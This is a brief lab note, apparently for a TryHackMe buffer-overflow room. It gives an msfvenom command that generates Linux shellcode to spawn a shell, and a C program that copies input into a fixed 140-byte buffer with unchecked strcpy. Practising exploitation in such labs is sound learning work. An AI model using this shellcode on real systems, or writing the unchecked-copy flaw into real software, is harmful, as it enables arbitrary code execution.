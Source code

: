 # exercises

## Ex 1 Hello World

- Source [https://tryhackme.com/room/bof1](https://tryhackme.com/room/bof1)
- Payload 

```shell
msfvenom -p 'linux/x64/exec' CMD='sh' --platform 'linux' --arch 'x64' --format c --bad-chars "\x00\x00\x00"
```

```c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```